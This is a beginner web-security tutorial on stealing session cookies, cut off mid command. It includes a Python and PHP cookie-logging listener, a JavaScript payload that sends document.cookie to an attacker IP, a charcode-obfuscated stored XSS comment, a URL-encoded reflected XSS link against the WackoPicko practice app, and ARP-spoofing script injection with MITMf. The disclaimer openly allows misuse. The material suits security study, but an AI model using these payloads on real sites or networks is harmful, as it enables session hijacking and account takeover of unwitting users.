- [Adam Doupe’s vulnerable app I used in this tutorial](https://github.com/adamdoupe/WackoPicko)

**_Disclaimer:_** _You are free to use presented knowledge for educational purposes, with good intentions (securing web applications, penetration testing, ctf’s etc.), or not._ **_I am not responsible for anything you do._**

---

This article was originally written in May 2018 and is presented here in its original format. While the content is old, it remains relevant, although there are areas where I would make updates, such as covering local/session storage, JWT-based authentication, DOM XSS, and Content Security Policy, along with general code refactoring.

Despite these potential improvements, I have chosen to preserve the article in its original form, as it represents my first-ever article writing endeavor during high school.

The topics covered here include basic Man-in-the-Middle attacks and Cross-Site Scripting (XSS).

If you're interested in further exploration and learning, I recommend visiting [PortSwigger Academy](https://portswigger.net/web-security), particularly their XSS section. It provides excellent, free training in web security. KUDOS for them.

_Enjoy your reading_.

K.

---

## This article will explain some of the common [HTTP state](https://tools.ietf.org/html/rfc6265)  interception methods for beginners.

### **At the base of our actions we need a listener.**

Due to [mixed content](https://developer.mozilla.org/en-US/docs/Web/Security/Mixed_content?utm_source=mozilla&utm_medium=firefox-console-errors&utm_campaign=default) restrictions in modern browsers you’ll often need to use HTTPS protocol capable web server.  

You can write your own or use httpd like [Apache](https://httpd.apache.org/).

If your target is outside the NAT then corresponding port forwarding will be needed too.  
You can also use a web service similar to ~~[Requestbin](https://github.com/Runscope/requestbin#readme)~~ _(public hosting discontinued unfortunately, although there are self-hosted options for webhooks and bins)_.

Here is a very simple solution written in Python 3.  

```python
import http.server  
import ssl  
import sys  
  
class S(http.server.BaseHTTPRequestHandler):  
  def _set_headers(self):  
    self.send_response(200)  
    self.send_header('Content-type', 'text/html')  
    self.end_headers()  
  
  def do_GET(self):  
    self._set_headers()  
    print(self.path)  
    cookie =s elf.path.split("xss=")[1]  
    print("Cookie: "+cookie+"\n")
    
    with open('cookies.txt', 'a') as xss:  
       xss.write(cookie+"\r\n")  
  
  def run(server_class=http.server.HTTPServer, handler_class=S, port=443):  
    server_address = ('', port)  
    httpd = server_class(server_address, handler_class)  
    httpd.socket = ssl.wrap_socket(
      httpd.socket,
      certfile=sys.argv[1], 
      server_side=True
    )
    print('[*] Serving at '+str(server_address))
    
    try:  
      httpd.serve_forever()  
    except KeyboardInterrupt:  
      pass  
    httpd.server_close()  
  
if __name__ == "__main__":  
  if(len(sys.argv) == 2): 
    run()  
  else:  
    print("Specify cert file")  
    sys.exit(1)
```

You can then connect to it and test if it works.  

```
openssl s_client -connect localhost:443
```

[](images/testingssl.png "GET /?xss=PHPSESSID=ThisIsMySessionCookieForTesting HTTP/1.1") GET /?xss=PHPSESSID=ThisIsMySessionCookieForTesting HTTP/1.1

The request was captured.

## Session theft concept

> For the case of simplicity and illustrating the concepts, I’ve chosen to use simple [built-in PHP http server](http://php.net/manual/pl/features.commandline.webserver.php) as we are not interacting with SSL traffic for now.

Let’s create something quick in PHP language.
_index.php_
```php
<?php
if (isset($_GET['xss'])) {  
  $string = $_GET['xss'];  
  $handle = fopen('xss.txt', 'a');  
  fwrite($handle, $string."\n");fclose($handle);  
}
```

Example above is saving the GET _xss_ parameter from incoming requests into a file named _xss.txt._

In shorter words it just saves the received cookie into a file.

### Start the server with elevated privileges.

```
sudo php -S 0.0.0.0:80 -f index.php -t .
```

- **-S 0.0.0.0:80** - _Listen on all interfaces, port 80_
- **-f index.php** - _Specified file to parse_
- **-t .** - _Directory root (dot means current directory)_

The main point for now is to make the client send a request into our listener.

### Fake image

_payload.js_
```javascript
// My interface IP address: 192.168.1.101
new Image().src="http://192.168.1.101/?xss="+document.cookie
```

Basically we are creating a new image object, source of which points to our listener at **192.168.1.101**, and while the browser is requesting to load a fake image, the server captures the URL parameter containing the cookie.

At first let’s test it locally with help of the developer console and then we’ll move out to injecting a script in non-physical access based situations.

### **_Open up the developer console (F12) and test the payload._**

[](images/ss1.png "Payload execution")Payload execution

If you’ve had received the cookie, then you’ve done everything correctly. 
**Congratulations 😀**

> The cookie we’ve sent can be used to become an authenticated user without logging in.

We can use a [Cookie extension](https://cookie-editor.com/) to import the captured cookies into a browser.

We can also set it with javascript.  
```
// Setting the cookie in a javascript capable browser.
document.cookie = "PHPSESSID=rqc8ictmojuag6c4k464end6n4";
```


[](images/ss2.png "Setting the cookie with JS")Setting the cookie with JS  

We can also set it in the storage tab.

[

Setting the cookie in the storage tab  

If you craft requests by hand, pass the cookie manually in the HTTP "Cookie" request header.

[](images/ss11.png "Putting the cookie into a proxied request using Burp Suite") 
Putting the cookie into a proxied request using Burp Suite 

[](images/ss3.png "After refreshing you can notice that we are logged in.")
After refreshing you can notice that we are logged in as another user.

---

## Let’s move to the basic XSS topic.

_Browsers’ javascript parsers allow for client side, cross site code execution._ - [_Cross Site Scripting_](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29).

>The first XSS exploitation technique I will showcase is called **_stored XSS_**. We will be targeting a vulnerable input that allows us to add an unsanitized comment. The exploitation is persistent as the payload is being constantly red from the database.


[](images/storedxss.png "Infographic showing stored XSS")Infographic showing stored XSS

**For encoding I used one of the Jim Stiles’ [javascript utilities](http://www.jdstiles.com/java/cct.html).** 

I encoded the payload in char code and then used eval to run it on body load event.

```
Wow, I really like your site <body onload=eval(String.fromCharCode(110,101,119,32,73,109,97,103,101,40,41,46,115,114,99,61,34,104,116,116,112,58,47,47,49,57,50,46,49,54,56,46,49,46,49,48,49,47,63,120,115,115,61,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))>
```

[](images/ss6.png "Crafting a comment")Crafting a comment

- **Once the user logs in and reads the comments, we get his cookie.**

[](images/ss5.png "Different user opens the page")
Different user opens the page

>Another technique is called **_reflected XSS_** and this time we will need the user to click on a prepared link that injects the payload using an unsanitized input. 

>Generally, if there is a field that loads a string from the URL and does not filter anything before rendering it, then Reflected XSS is possible.

---

There is a vulnerable search field on this web app, let’s exploit it and send our link to the user.

[](images/ss12.png "Encoding the payload with Burp Suite assistance")
Encoding the payload with Burp Suite assistance

```python
# This is the same payload, but I encoded it for URL and added "White Dog" before.  
http://wackopicko.com:8080/pictures/search.php?query=White%20Dog%3c%62%6f%64%79%20%6f%6e%6c%6f%61%64%3d%65%76%61%6c%28%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%31%31%30%2c%31%30%31%2c%31%31%39%2c%33%32%2c%37%33%2c%31%30%39%2c%39%37%2c%31%30%33%2c%31%30%31%2c%34%30%2c%34%31%2c%34%36%2c%31%31%35%2c%31%31%34%2c%39%39%2c%36%31%2c%33%34%2c%31%30%34%2c%31%31%36%2c%31%31%36%2c%31%31%32%2c%35%38%2c%34%37%2c%34%37%2c%34%39%2c%35%37%2c%35%30%2c%34%36%2c%34%39%2c%35%34%2c%35%36%2c%34%36%2c%34%39%2c%34%36%2c%34%39%2c%34%38%2c%34%39%2c%34%37%2c%36%33%2c%31%32%30%2c%31%31%35%2c%31%31%35%2c%36%31%2c%33%34%2c%34%33%2c%31%30%30%2c%31%31%31%2c%39%39%2c%31%31%37%2c%31%30%39%2c%31%30%31%2c%31%31%30%2c%31%31%36%2c%34%36%2c%39%39%2c%31%31%31%2c%31%31%31%2c%31%30%37%2c%31%30%35%2c%31%30%31%29%29%3e
```

[](https://krystianbajno.github.io/images/webh_1/ss7.png "Unwary user clicks on a malicious link")
Unwary user clicks on a malicious link  

[](https://krystianbajno.github.io/images/webh_1/ss8.png "Cookie hijacked")
Cookie hijacked

---
## A Man standing in the Middle

Last technique I will cover in this article does not need precision to succeed.  
It involves sniffing on the network, redirecting HTTPS traffic into HTTP, proxying the packets and then injecting the payload in real time.

We will use a great framework made by [Marcello Salvati](https://github.com/byt3bl33d3r/MITMf).

## Before running, let’s take a look at the source code.

[]

> As we can see, the framework takes care of most of the boring administrative tasks for us automatically. There is no need to manually set ipv4 forwarding or write iptables rules.  

[]

>The framework can efficiently spoof the ARP cache of the whole subnet. I will explain in steps how it works. At first we need to resolve the MAC address of targeted devices. We send an ARP 'who-has' request.  

[]

>Then we announce that we have the MAC address of a gateway (router in this case). By doing that, all the devices are being tricked to send the packets at us after being routed.

[]

> After we become a man-in-the-middle, we can process the packets and serve whatever we want to the victim devices. In this case, we will intercept HTTP responses and then include a malicious javascript code inside them. We can also sniff the cookies just by intercepting the requests at this point, but we will perform a javascript injection to make it even more sophisticated. The possibilities are endless after the web browser gets trojanized with injected code.  

[

> The injection module uses BeautifulSoup with simple html parser to find a document body and append the payload into it. If we've hosted our payload on some server, we could inject it automatically in an < iframe > tag after specifying the URL.

### Let’s change the payload to a different port:
```javascript
// payload.js  
new Image().src="http://192.168.1.101:8000/?xss="+document.cookie
```

### It is time for the framework to do the work for us.

```bash
sudo php -S 0.0.0.0:8000 -f index.php -t . &  
